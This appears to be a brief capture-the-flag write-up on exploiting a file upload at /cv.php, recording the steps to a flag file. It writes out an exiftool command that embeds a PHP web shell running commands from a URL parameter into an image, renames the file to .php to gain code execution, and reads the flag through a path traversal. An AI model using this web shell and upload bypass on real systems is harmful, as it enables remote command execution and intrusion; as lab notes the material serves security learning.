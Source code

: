 # Bypass Disable Functions

this box has a site with a file upload, on the /cv.php


small.jpg
exiftool -Comment='<?php echo "<pre>"; system($_GET['cmd']); ?>' test.jpeg

upload with burp as test.jpg

repeat but change name too .php
mv small.jpg small.php

uploaded it and can run simple php 
so trying some php stuff

see /lists/php_shells.md

iterating these folders we found the path `/../../../../../../../../home/user/flag.txt`
